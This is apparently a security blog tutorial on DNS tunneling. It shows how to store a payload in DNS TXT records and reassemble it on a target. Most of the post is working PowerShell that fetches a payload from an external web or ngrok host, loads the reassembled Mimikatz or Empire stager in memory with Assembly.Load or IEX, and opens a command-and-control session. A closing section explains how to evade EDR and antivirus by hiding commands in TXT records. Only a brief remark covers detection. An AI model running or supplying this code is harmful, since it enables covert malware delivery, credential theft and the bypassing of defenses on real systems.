We have seen in a previous article (Named Pipes) that it was possible to send and receive some data from a server to a client through a tunnel or a channel. Instead of using the Named Pipes, the well known protocol for Internet, DNS, will be used to transfer the data.
Definition
The domain name system is mainly used for identifying systems through Internet. Any system connected to Internet must have an IP address. But as a human, remembering all the different IP addresses become very complicated and it is definitely easier to remember a domain name such as "google.com". DNS will map the human-friendly domain name to the numerical IP address.DNS has been created in the early days of Internet and the DNS tunneling attack method is not a recent discovery, it has been around for a long time. Despite it is a old and well known technique, many organizations still have difficulties to detect and prevent it. Usually, adversaries use DNS tunneling for data exfiltration but in some recent malicious activities, the protocol DNS has been also used to beacon a Command & Control and execute some commands or payloads (Cobalt Strike).
DNS records
Every domain has a resource record, which is a information entry in the DNS zone file. Each record has at least a type and a value. There are a few types of DNS records : A (IPv4), AAAA (IPv6), MX (domain name), NS (domain name) and TXT (string). If an adversary is looking for a way to extract data or to store potential malicious data, the TXT record seems to be the most appropriate since it accepts any string value and is the DNS type record that can contain the most of characters. The character limit per TXT record is 255, which means that several TXT records will be necessary for the attacker to successfully perform the attack if the length of the payload is more than 255. We know that executable file is not fully human readable characters so to transform into a fully human readable character, the common encoding method is base64. Base64 is composed of characters ‘A-Z’, ‘a-z’, ‘0-9’, ‘+’, ‘=’, ‘/’.Important notes
Before storing the information in a TXT record, some things have to be taken into consideration:- Not-in-order problem: There is no guarantee that the TXT record will be returned in order. Since that we need to recreate the executable from the base64, we need to make sure that it comes in order.
- Duplicate issue: Duplicate results will not be display, only one result will be displayed. It is very common for a PowerShell script to have a lot of A when the hex is convert as a base64. Therefore, If there are several times 255 ‘A’, the TXT record will only show one 255 ‘A’.
Proof of Concept
I've created a Windows Server that hosts a DNS server for this POC.  Let's create manually some TXT records in the DNS.  Nslookup is a network administration command-line to obtain some DNS information about a domain name. In the current DNS server, I have created some TXT records named 0, 1, 2, 3 so that it is easier to get the correct order when a loop is running to get those TXT records.For($i=0; $i -lt $numberofdomain; $i++){nslookup -q=txt $i}[-1]
Since that the result of nslookup stores the value at the last position of a array, the "[-1]" is used to get the last value of an array.

Looking at the output, some tabulation characters and double quotes have to be removed from the string.
$string.replace(“`t”, “”).replace(“`””,””)}
If we need to recreate a PE file, we must concatenate the data present in each subdomain, let's try to concatenate the value of those subdomains.
For($i=0; $i -lt $numberofdomain; $i++){$temp = (nslookup -q=txt $i”.persolab.info”)[-1]; $result = $result + $temp.replace(“`t”, “”).replace(“`””,””)};Write-Host($result);
 Great, now we have the knowledge to reconstruct a payload from the TXT records. Let's try with a real payload.
Great, now we have the knowledge to reconstruct a payload from the TXT records. Let's try with a real payload. Exploit
Mimikatz
We have previously made some tests by adding some data manually in the DNS server, however, if the payload contain more than 10 000 characters, it is better to automate this task. To add DNS record in PowerShell, it exists a method called "Add-DnsServerResourceRecord".Add-DnsServerResourceRecord -DescriptiveText [VALUE] -Name [NAME] -Txt -ZoneName [DNSZONE]
Let's retrieve a payload from my own web application by calling a DownloadString("https://hakkyahud.github.io/password.html"). Before writing our script, we need to determine the amount of subdomains. To do so, let's divide the amount of characters by 254.
[math]::ceiling($payload.length/254)
Once the number of subdomain has been determined, let's script it :)
$payload = (New-Object Net.WebClient).DownloadString("https://hakkyahud.github.io/password.html");
$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254); //take from 254*i and add 254 following characters
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i)); //To not write outside of the buffer
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
Many TXT records have been created and I cannot tell you how many is stored in the DNS server at the moment.

Let's make some calculation

In this current payload, there are 4 839 426 characters and by dividing by 254, the DNS server have created 19053 subdomains. Let's reconstruct the payload and attempt to run in our compromised system. The payload will be stored and executed in memory.$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254); //take from 254*i and add 254 following characters
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i)); //To not write outside of the buffer
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
$numberofsubdomain = 19053;
For($i=0; $i -lt $numberofdomain; $i++){
$temp = (nslookup -q=txt $i”.persolab.info”)[-1];
$result = $result + $temp.replace(“`t”, “”).replace(“`””,””)
}
$byte = [System.Convert]::FromBase64String($result);
$assembly = [System.Reflection.Assembly].Load($byte);
$assembly.EntryPoint.Invoke($null, $null);
Since that we have 19053 subdomains, the loop goes from 0 to 19052 and the time that the client sends a DNS query and the DNS server returns an answer takes around 3 seconds. With the 19053 subdomains, if we are multiplying by 3, it is around 57159 seconds and by dividing by 3600 it becomes 16 hours to recreate the payload... For($i=0; $i -lt $numberofdomain; $i++){
$temp = (nslookup -q=txt $i”.persolab.info”)[-1];
$result = $result + $temp.replace(“`t”, “”).replace(“`””,””)
}
$byte = [System.Convert]::FromBase64String($result);
$assembly = [System.Reflection.Assembly].Load($byte);
$assembly.EntryPoint.Invoke($null, $null);
After running the program 3 hours, I've stopped it and decided to find another payload. I was thinking a stager to connect to a Meterpreter session or Empire session.
To delete the DNS events in PowerShell, the method “Remove-DnsServerResourceRecord” removes specified DNS server resource records from a zone.
For($i=0; $i -lt $numberofsubdomain; $i++){
try{
Remove-DnsServerResourceRecord -ZoneName “persolab.info” -RRType “Txt” -Name $i -force -confirm:$false;
}
catch{
break;
}
}
try{
Remove-DnsServerResourceRecord -ZoneName “persolab.info” -RRType “Txt” -Name $i -force -confirm:$false;
}
catch{
break;
}
}
Empire
- uselisteners http
- set Port 80
- set Host http://[IP_ADDRESS]:[PORT]
- set Name c2http
- execute
- usestager multi/launcher
- set Listener c2http
- execute
Copy this payload to a index.html file and create a python web application on a port in the index.html directory.
echo [PAYLAOD] > ./Documents/http/index.html;
python -m http.server 8000  Use Ngrok to open your port on internet (ngrok http –scheme http 8000)
It is necessary to have a Ngrok account and then copy the authentication token to the configuration file.
ngrok config add-authtoken [AUTHTOKEN XXX]
The authtoken saved to configuration file: /root/.config/ngrok/ngrok.yml  The content of the index.html file is reachable in Internet. We can add the payload in our DNS server.
$payload = (New-Object Net.WebClient).DownloadString("http://2de8-37-168-9-51.eu.ngrok.io");
$payload = $payload.replace("`n","");
$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254);
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i));
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}

All the PowerShell payload stored in my web application has been put in the DNS server. The payload is divided in 15 TXT records. The last steps are to reconstruct the payload and to run in a system. After running the payload in a Windows machine, an Empire session should be opened in our attacker system.
$payload = $payload.replace("`n","");
$numberofsubdomain = [math]::ceiling($payload.length/254);
$domainname = "persolab.info";
for($i = 0; $i -lt $numberofsubdomain; $i++){
try{
$substring = $payload.substring(254*$i,254);
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
catch [ArgumentOutOfRangeException]{
$substring = $payload.substring(254*i, $payload.length-(254*$i));
Add-DnsServerResourceRecord -DescriptiveText $substring -Name $i -Txt -ZoneName $domainname;
}
}
$numberofsubdomain = 15;$result = "";For($i=0; $i -lt $numberofsubdomain; $i++){$temp = (nslookup -q=txt $i”.persolab.info”)[-1];$result = $result + $temp.replace(“`t”, “”).replace(“`””,””);}$result = $result.replace("`"","");Write-Host($result);IEX($result);


The Empire session is opened ! We have reconstruct the payload from the 15 TXT records of our DNS server. Everything has been done in local, but this attack could have been done from a new domain hosted by Google or Microsoft. This attack method generate quite a lot of DNS traffics since the compromised computer is requesting a lot of subdomains and the data size is quite huge. It shouldn't be too complicated to create a detection rule to be alerted when this case happen. However, many companies forget to monitor closely the DNS traffic because it is originally very noisy.
A little bit more stealthier
The commands such as Invoke-Expression, Invoke-WebRequest, [System.Reflection.Assembly]::Loads, EntryPoint.Invoke are usually flagged by EDR or AV in case it is seen in the command line. A way to bypass those detections is to store those commands in a TXT record and call them with PowerShell.Powershell .(nslookup -q=TXT [DOMAIN_NAME])[-1]

In Powershell, there is another way to send a DNS query to a DNS server using the following command line.
Resolve-DnsName [DOMAIN_NAME] -type TXT

If we just want the Strings object in this array, we can loop through the array and extract the Strings object.
powershell .(Resolve-DnsName [DOMAIN_NAME] -type TXT | foreach{$_.Strings})

In this test, we have tried with simple commands "ping 8.8.8.8" or "net user" but we can replace them with a command that sounds more malicious and might be detected by a host-based security system such as [System.Reflection.Assembly]::Loads().